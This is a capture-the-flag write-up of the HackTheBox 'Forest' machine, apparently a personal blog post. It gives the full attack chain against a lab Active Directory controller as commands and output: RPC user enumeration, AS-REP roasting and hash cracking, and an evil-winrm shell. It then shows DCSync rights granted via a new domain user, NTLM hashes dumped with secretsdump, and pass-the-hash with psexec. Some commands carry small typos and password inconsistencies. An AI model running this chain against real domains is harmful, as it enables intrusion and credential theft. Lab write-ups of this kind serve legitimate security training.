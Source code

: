 ```yaml
---
title: "HackTheBox Forest"
date: 2022-11-11T19:09:00+01:00
draft: false
tag: [
        "HackTheBox",
        "Pentest",
        "Active Directory"
] 
---
```


Exploit a domain controller that allows us to enumerate users over RPC, attack Kerberos 
with AS-REP Roasting, and use Win-RM to get a shell. Then using Bloodhound we can take
advantage of the permissions of some user that allow us to dump admin hash to get a shell as admin.
<!--more-->

# **Introduction**

It's been a long time since I posted my last writeup, now I'm back. We start with a cool box to begin with Active Directory.

## **Nmap**
Let's start with the nmap scan which shows us typical open ports for a Windows machine :

```text
# Nmap 7.91 scan initiated Tue Jul 13 06:49:02 2021 as: nmap -sC -sV -o output_nmap.txt 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.079s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-13 10:59:12Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## **SMB**

We can see that port 445 is open, which is the SMB port. Let's use with smbmap to see if we can access some shares :

```text
kali@kali# smbmap -H 10.10.10.161
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.161...
[+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      
        Disk    Permissions                                             
        ----     -----------                                               
[!] Access Denied
```
Unfortunately, we can't access the shares without a password but don't worry we can connect as null user with rpcclient to enumerate users and groups : 

```text
kali@kali# rpcclient -U "" -N 10.10.10.161
rpcclient $>
```
Then use enumdomusers to get a list of users :

```text
rpcclient $> enumdomusers              
user:[Administrator] rid:[0x1f4]       
...[snip]...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]                
user:[mark] rid:[0x47f]                
user:[santi] rid:[0x480]
```
Above you can see a list of potential user which might be vulnerable to something.

## **Own user svc-alfresco**

 Now what can we do with these users ? We can use a method called AS-REP Roasting to get the password hashes of these users.
This method require the user to have the "don't require Kerberos pre-authentication" option enabled. We can check this with a script from impacket collection : 
``` 
/opt/tool/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 -usersfile users.txt htb/
```
Jackpot ! We got the hashe of the user svc-alfresco. We can crack his hashes with hashcat :
```
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt 
```
Hashcat easily cracked the password : s3rvice.

Finally we can use these credentials to log in as svc-alfresco using Evil-WinRM :

```
kali@kali# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                         
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
                                                         
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
From There we can grab the user flag : 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
************************     
```

## **Time for Root**

From there I just collected data using bloodhound-python
so we can import the .json files in BloodHound :
```
bloodhound-python -u svc-alfresco -p 's3rvice' -d htb.local -ns 10.10.10.161 -c DcOnly
```

After importing the data, under “Queries”, just click on  “Find Shorter Paths to Domain Admin”, and we get the following graph:
![image text](/bloodhound.png)

Basically svc-alfresco is a member of Privileged IT Account, which is a member of Account Operators, it’s like my user is a member of Account Operators and Account Operators has Generic All privilege on the Exchange Windows Permissions group. If I click on the edge in Bloodhound, and select help, there’s an “Abuse Info” tab in the pop up that displays:

![image text](/abuse_info.png)

Note that the Exchange Windows Permissions group has WriteDacl
privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an
object. In other words we can add a user to this group and give them DCSync privileges.

Let's go back to our shell and create a new user, add him to Exchange Windows Permissions group :

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net user add achla Pa$$sw0rd! /add /domain
```
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net group "Exchange Windows Permissions" achla /add
```

After importing PowerView script we can
use the Add-ObjectACL with achla's credentials, and give him DCSync rights.

```
$pass = ConvertTo-SecureString 'Pa$$sw0rd!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\achla', $pass)
Add-ObjectAcl -Credential $Cred -PrincipalIdentity achla -Rights DCSync
```

To conclude I used the secretdump script from impacket to get the NTLM hashes for all domain users
```
kali@kali# /opt/tool/impacket/examples/secretsdump.py achla:Pa$$w0rd!@10.10.10.161

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
[*] Cleaning up... 
```

We've got the hash for Administrator, let's just login using psexec

```
kali@kali# /opt/tool/impacket/examples/psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
Just grab the root flag in Administrator's Desktop and voila.
That all for me, thanks for reading.